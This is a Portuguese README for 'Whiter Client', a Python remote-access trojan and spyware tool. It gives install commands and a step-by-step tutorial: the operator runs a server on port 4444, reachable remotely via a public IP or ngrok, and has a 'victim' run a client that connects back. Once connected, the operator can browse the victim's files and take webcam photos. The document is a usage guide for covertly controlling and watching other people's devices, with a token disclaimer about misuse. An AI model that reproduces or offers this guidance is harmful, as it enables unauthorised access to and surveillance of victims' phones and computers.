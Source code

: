 

# Whiter Client V0.1

By Dragonmodder (Jhon)

Whiter Client é uma ferramenta de administração remota (RAT) e também um spyware, desenvolvida em Python puro. 

Recursos principais:

Conexão remota cliente/servidor via socket

Execução de comandos no terminal da máquina alvo

Captura de imagem da webcam remotamente

Interface leve e direta em modo texto

Compatível com Windows, Linux e Android (via Termux)


Observações:

Caso usar para o mau, eu não me responsabilizo por qualquer dado em telemóveis ou computadores de outras pessoas. 

Instalação

No Android (Termux):

pkg update && pkg install git python -y
git clone https://github.com/Dragonmodder7/Whiter-Client.git
cd Whiter-Client
python client.py

No Linux:

sudo apt update && sudo apt install git python -y
git clone https://github.com/Dragonmodder7/Whiter-Client.git
cd Whiter-Client
python client.py

Usando o Whiter client - Tutorial 

Entendendo os arquivos

server.py: você roda esse no seu celular ou PC, ele que vai controlar tudo.

client.py: esse é o que a vítima tem que rodar, ele se conecta ao seu servidor.


Iniciando o servidor

No seu aparelho (que vai comandar), roda:

python server.py

Ele vai pedir um IP e uma porta. Se for tudo local, coloca:

HOST: 0.0.0.0
PORTA: 4444

Se quiser usar remotamente, você precisa do seu IP público ou usar algo como o ngrok.


Conectando a vítima

Na máquina da vítima (onde você quer ter o acesso), a pessoa precisa rodar:

python client.py

E colocar o IP e a porta do seu servidor, exemplo:

IP do servidor: 192.168.0.100
PORTA: 4444

Assim que ela conectar, no seu terminal vai aparecer a conexão ativa.


Comandos que você pode usar

Depois que a conexão estiver feita, você pode digitar comandos como:

ls: lista os arquivos da vítima

cd nome_da_pasta: muda de pasta

webcam_snap: tira uma foto da webcam

exit: encerra a conexão
